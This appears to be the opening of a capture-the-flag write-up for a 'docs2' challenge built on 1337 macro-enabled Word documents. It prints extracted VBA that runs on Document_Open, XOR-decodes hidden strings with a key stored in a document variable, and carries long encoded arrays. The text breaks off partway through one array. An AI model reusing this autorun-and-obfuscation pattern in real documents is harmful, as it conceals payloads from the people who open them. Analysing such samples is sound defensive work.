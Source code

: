 What a nice challenge !

In this docs2 challenge, you get 1337 doc files. Once again, you're asked to enable macro.

# 1 Macro per day is okay ...

So, let's look to some macroses in some random files, they all look like :

```vbnet
Private Sub Document_Open()
If ActiveDocument.Variables("zJTxqS").Value <> "wadoz" Then
GJmLhJxtSqFSSGx
ActiveDocument.Variables("zJTxqS").Value = "wadoz"
If ActiveDocument.ReadOnly = False Then
ActiveDocument.Save
End If
End If
End Sub

-------------------------------------------------------------------------------
VBA MACRO FfwMwxA.bas
in file: pkg/lab_1_file.doc - OLE stream: u'Macros/VBA/FfwMwxA'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Function sUPofBHPpg(BJcRgNedRY As Variant, SSUsYPSWRa As Integer)
Dim PkQzVmeRsW, vNyQDXSsCa As String, hrBvomJTpj, bbSHicjpnn
vNyQDXSsCa = ActiveDocument.Variables("zJTxqS").Value()
PkQzVmeRsW = ""
hrBvomJTpj = 1
While hrBvomJTpj < UBound(BJcRgNedRY) + 2
bbSHicjpnn = hrBvomJTpj Mod Len(vNyQDXSsCa): If bbSHicjpnn = 0 Then bbSHicjpnn = Len(vNyQDXSsCa)
PkQzVmeRsW = PkQzVmeRsW + Chr(Asc(Mid(vNyQDXSsCa, bbSHicjpnn + SSUsYPSWRa, 1)) Xor CInt(BJcRgNedRY(hrBvomJTpj - 1)))
hrBvomJTpj = hrBvomJTpj + 1
Wend
sUPofBHPpg = PkQzVmeRsW
End Function
Public Function GJmLhJxtSqFSSGx()
mXHYDYcv = sUPofBHPpg(Array(27, 30, 5, 1, 8, 11, 13, 92, 10, 29, 25, 85, 34, 17, 32, 16, 12, 46, 6, 15, 22, _
34, 73, 124, 45, 1, 23, 35, 13, 21, 40, 0, 7, 17, 72, 42, 45, 16, 18), 561)
BEChyIOD = sUPofBHPpg(Array(33, 27, 59, 57, 23, 123, 57, 36, 40, 53, 21, 72, 32, 25, 38, 35, 25, 26, 119, 20, 41, _
118, 15, 23, 49, 16, 119, 114, 114, 122, 36, 15, 18, 9, 22, 66, 117, 120, 0, 14, 57, _
0, 56, 41, 22, 54, 77, 24, 109, 36, 112, 43, 51, 35, 43, 37, 15, 37, 27, 22, 117, _
1, 56, 27, 37, 119, 112, 36, 9, 26, 42, 117, 27, 8, 1, 28, 57, 11, 7, 6, 48, _
59, 15, 20, 121, 48, 76, 34, 25, 84, 32, 15, 14, 4, 10, 54, 12, 54, 2, 52, 14, _
4, 37, 45, 43, 53, 37, 16, 13, 33, 14, 119, 18, 27, 56, 0, 4, 14, 42, 4, 38, _
47, 22, 55, 36, 23, 98, 0, 54, 62, 5, 22, 23, 21, 36, 13, 48, 114, 40, 2, 36, _
5, 119, 50, 16, 22, 112, 10, 49, 117, 51, 45, 59, 23, 3, 48, 24, 41, 22, 18, 58, _
44, 56, 85, 46, 112, 11, 3, 28, 48, 21, 0, 46, 113, 119, 43, 40, 100, 16, 46, 39, _
36, 124, 47, 29, 37, 15, 15, 40, 0, 15, 47, 16, 39, 118, 87, 8, 43, 97, 55, 49, _
48, 27, 49, 19, 112, 34, 19, 63, 56, 47, 52, 12, 2, 13, 115, 44, 53, 55, 31, 8, _
15, 114, 41, 43, 42, 38, 3, 39, 16), 13)
vXdDrhSV = sUPofBHPpg(Array(42, 23, 113, 4, 15, 2, 2, 34, 10, 11, 13, 30, 14, 9, 56, 0, 32, 119, 36, 120, 45, _
15, 57, 44, 3, 121, 33, 57, 40, 94, 39, 15, 42, 20, 124, 114, 46, 51, 114, 50, 61, _
52, 33, 20, 19, 47, 39, 2, 57, 53, 34, 52, 44, 38, 23, 49, 11, 116, 120, 45, 116, _
87, 51, 115, 49, 46, 3, 45, 113, 53, 50, 33, 9, 47, 34, 45, 51, 16, 46, 112, 113, _
46, 11, 37, 4, 51, 35, 12, 59, 6, 25, 121, 21, 107, 48, 10, 36, 34, 21, 27, 50, _
13, 22, 122, 73, 37, 122, 6, 41, 2, 53, 53, 120, 23, 44, 50, 52, 124, 121, 15, 57, _
23, 60, 6, 14, 62, 7, 119, 0, 50, 120, 41, 112, 86, 116, 51, 50, 20, 28, 22, 113, _
51, 114, 115, 49, 51, 19, 116, 0, 49, 2, 48, 8, 44, 58, 19, 112, 16, 32, 119, 42, _
47, 17, 15, 3, 119, 50, 19, 52, 55, 124, 53, 118, 23, 49, 117, 9, 3, 39, 15, 37, _
15, 27, 123, 2, 119, 57, 8, 116, 12, 34, 15, 37, 23, 47, 55, 26, 1, 51, 116, 57, _
```